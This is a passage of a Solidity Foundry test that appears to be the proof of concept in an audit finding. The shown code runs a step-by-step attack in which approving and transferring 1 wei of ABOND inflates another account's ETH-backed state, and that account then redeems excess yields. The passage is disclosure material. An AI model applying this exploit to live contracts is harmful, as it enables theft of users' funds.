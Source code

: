 ```solidity
                USER_2, index, "0x", "0x", ethPrice - 15000, uint64(block.timestamp)
            );

            // see the "Internal pre-conditions" section to see that matches the following
            contractsB.abond.transfer(account1, contractsB.abond.balanceOf(USER_2));

            vm.stopPrank();
        }

        { // needed so there is something to steal, this proves the issue
            vm.startPrank(USER);

            vm.deal(USER, globalFee.nativeFee + (amount / 2));
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + (amount / 2)}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount / 2
                )
            );

            vm.stopPrank();
        }

        {
            // here the attack starts
            (, uint128 ethBacked1Before,) = contractsB.abond.userStates(account1);
            (, uint128 ethBacked2Before,) = contractsB.abond.userStates(account2);

            assert(ethBacked1Before > ethBacked2Before);

            uint256 acount2AbondBalance = contractsB.abond.balanceOf(account2);
            uint256 acount1AbondBalance = contractsB.abond.balanceOf(account1);

            // check how much eth it would get in case attack is not performed
            (, uint256 redeemableAmountBefore2,) =
                contractsB.borrow.getAbondYields(account2, uint128(acount2AbondBalance));
            (, uint256 redeemableAmountBefore1,) =
                contractsB.borrow.getAbondYields(account1, uint128(acount1AbondBalance - 1));

            // step 1 from "Attack path" section
            vm.prank(account1);
            contractsB.abond.approve(account2, 1);

            // step 2 from "Attack path" section
            vm.prank(account2);
            contractsB.abond.transferFrom(account1, account3, 1);

            (, uint128 ethBacked1After,) = contractsB.abond.userStates(account1);
            (, uint128 ethBacked2After,) = contractsB.abond.userStates(account2);

            assertEq(ethBacked1Before, ethBacked1After);
            assert(ethBacked2Before < ethBacked2After);

            // step 3 from "Attack path" section
            vm.startPrank(account2);
            contractsB.abond.approve(address(contractsB.borrow), type(uint256).max);
            uint256 withdrawedAmount2 = contractsB.borrow.redeemYields(account2, uint128(acount2AbondBalance));
            vm.stopPrank();

            // "Impact" section, point 3
```